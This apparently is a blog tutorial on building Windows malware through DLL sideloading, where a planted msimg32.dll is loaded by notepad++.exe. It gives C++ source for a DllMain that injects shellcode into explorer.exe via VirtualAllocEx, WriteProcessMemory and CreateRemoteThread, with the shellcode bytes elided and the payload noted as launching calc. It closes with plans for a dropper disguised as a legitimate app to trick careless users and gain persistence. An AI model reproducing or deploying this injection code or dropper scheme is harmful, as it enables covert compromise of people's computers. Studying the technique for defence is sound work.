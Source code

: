 ```yaml
---
title: "Malware Development - DLL Sideloading"
classes: wide
header:
  teaser: /assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/logo.jpg
ribbon: Purple
description: "DLL sideloading is a method that allows an application to load a dynamic link library (DLL) from ..."
categories:
  - Malware Analysis
---
```

DLL sideloading is a method that allows an application to load a dynamic link library (DLL) from a location other than the application's install directory. This is often done to enable an application to use a specific version of a DLL or to load a DLL that is not in the system's default search path. In some cases, DLL sideloading can be used to introduce malicious code into an application, so it is generally considered a security risk and is often disabled on corporate and enterprise networks.

## Concept

The concept of DLL sideloading is based on the fact that many applications use DLLs to provide additional functionality or to implement certain features. A DLL is a type of file that contains code and data that can be used by multiple applications at the same time. When an application needs to use a particular DLL, it typically loads the DLL from the application's install directory or from a location specified in the system's default search path.

Here in our case, "notepad++.exe" tries to load "MSIMG32.DLL", first it will search the DLL in its folder, then check it if avaliable in "System32" folder. We will hijack this part of process, we will copy and save the DLL from "System32", add dependencies to the original but renamed DLL so that our malicious DLL does not give any errors. When "notepad++.exe" executed, our malicious DLL will be loaded without any error and calc.exe executes.

`this article will not cover obfuscation, use it for educational purposes, source code is at the bottom`

### Finding Vulnerable DLLs

As a mentioned before, this procedure requires a vulnerable DLL with "NAME NOT FOUND" result. I choose "notepad++.exe", looked for a process that resulted "NAME NOT FOUND" and picked "msimg32.dll".

![](/assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/20221208_134707_image.png)

I used my previous malware development - dropper codes, you can check them [here](https://github.com/vvelitkn/MalwareDev-Dropper).

First we should create the malicious DLL (which spawns calc.exe), so we open a new DLL project on Visual Studio named "msimg32" (you should name it with the target DLL's name). We set DllMain function like below and the rest of the code is very same as my previous code. "Action" is our malicious function.

```cpp
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"
#include <Windows.h>
#include <stdio.h>
#include <TlHelp32.h>
#define _CRT_SECURE_NO_DEPRECATE
#pragma warning (disable : 4996)

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  reason_for_call,
    LPVOID lpReserved
)
{
    HANDLE hThread = NULL;
    switch (reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        hThread = CreateThread(NULL, 0, Action, NULL, 0, NULL);
        CloseHandle(hThread);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

When "Action" function called, it makes these happen.

Action -> find and open target process -> inject payload

```cpp
//msfpayload windows/x64/exec CMD="calc" EXITFUNC=thread
unsigned char payload[] = {.......}

HANDLE FindTargetProcess(const LPCSTR processName)
{
    int pid = 0;
    HANDLE hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hSnap)
        return 0;

    PROCESSENTRY32 ProcessListEntry;
    ProcessListEntry.dwSize = sizeof(PROCESSENTRY32);

    if (!Process32First(hSnap, &ProcessListEntry))
    {
        CloseHandle(hSnap);
        return 0;
    }  

    while (Process32Next(hSnap, &ProcessListEntry))
    {
        if (lstrcmpi(processName, ProcessListEntry.szExeFile) == 0)
        {
            pid = ProcessListEntry.th32ProcessID; break; 
        }
    }

    CloseHandle(hSnap);

    if (pid)
        return OpenProcess(PROCESS_CREATE_PROCESS | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, (DWORD)pid);

    return NULL;
}

int InjectPayload(HANDLE hProcess, unsigned char* payload, unsigned int payloadSize)
{

    LPVOID pRemoteShellcode = NULL;
    pRemoteShellcode = VirtualAllocEx(hProcess, NULL, payloadSize, MEM_COMMIT, PAGE_EXECUTE_READ);
    WriteProcessMemory(hProcess, pRemoteShellcode, (PVOID)payload, (SIZE_T)payloadSize, (SIZE_T*)NULL);

    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteShellcode, NULL, 0, NULL);
    if (hThread != NULL)
    {
        WaitForSingleObject(hThread, 500);
        CloseHandle(hThread);
        return 0;
    }
    return -1;
}

DWORD WINAPI Action(LPVOID lpParameter)
{
    HANDLE hProcess = NULL;
    unsigned int payloadsize = sizeof(payload);

    char pName[] = "explorer.exe";
    hProcess = FindTargetProcess(pName);

    if (hProcess != NULL)
    {
        InjectPayload(hProcess, payload, payloadsize);
        CloseHandle(hProcess);
    }
    return 0;
}



```

After completing the payload and injection stages, we write the export functions of my original but renamed DLL so that our malicious DLL does not fail while loading.

![](/assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/20221208_162822_image.png)

Let's test it out.

![](/assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/poc.gif)

And also without executing notepad++.exe, Windows runs "msimg32.dll" when we click on the icon.


![](/assets/images/Malware-Analysis/Malware-Development-DLL-Sideloading/20221208_192809_image.png)

So far, so good. Our malicious DLL loading without error. We hijack the loading cycle, but we can do more. Let's create a dropper for "msimg32.dll" and make it look like a legit app which drops our malicious DLL. So we will do this here:

Dropper -> Mal DLL + NonMal DLL -> execute payload

This procedure will give us the advantage: persistence. The careless user will run our dropper and if the user has notepad++ on their computer we will upload our files there.

To be continued.

- [Source Code](https://github.com/vvelitkn/MalwareDev-DLL-Sideloading)
